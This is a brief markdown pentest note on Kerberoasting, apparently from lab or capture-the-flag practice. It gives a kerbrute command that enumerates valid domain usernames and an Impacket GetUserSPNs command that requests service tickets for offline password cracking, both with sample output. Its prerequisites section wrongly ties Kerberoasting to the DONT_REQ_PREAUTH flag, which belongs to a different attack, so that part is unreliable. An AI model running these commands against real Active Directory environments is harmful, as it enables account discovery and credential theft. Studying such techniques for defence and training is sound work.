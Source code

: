 # Kerberoasting

Kerberoasting is a type of attack against Microsoft Active Directory environments that involves extracting service account passwords from Kerberos tickets. Service accounts are often used to run automated processes and scheduled tasks, and because they often have high privileges within an organization, they can be a valuable target for attackers.

The basic method of kerberoasting involves requesting a ticket for a service account, then cracking the encrypted password hash that is included in the ticket.

# Pre-Requisites

Kerberoastable users need to have the `DONT_REQ_PREAUTH` flag set.

``` 
$   kerbrute userenum -d MCDONALDS.LOCAL SecLists/Usernames/xato-net-10-million-usernames.txt --dc dc-01.htb                                                            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/23 - Ronnie Flathers @ropnop

2023/02/08 14:26:09 >  Using KDC(s):
2023/02/08 14:26:09 >   10.10.10.175:88

2023/02/08 14:26:45 >  [+] VALID USERNAME:       administrator@MCDONALDS.LOCAL
2023/02/08 14:30:08 >  [+] VALID USERNAME:       dudi@MCDONALDS.LOCAL
2023/02/08 14:30:32 >  [+] VALID USERNAME:       sagi@MCDONALDS.LOCAL
2023/02/08 14:31:49 >  [+] VALID USERNAME:       ido@MCDONALDS.LOCAL
2023/02/08 14:48:58 >  [+] VALID USERNAME:       overlord@MCDONALDS.LOCAL
```

# SPNs

If a user account has an SPN, we can request a service ticket on behalf of it, and crack it offline.

```
python GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -target-domain scrm.local -dc-host dc1.scrm.local -outputfile kerberoastables.txt
```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
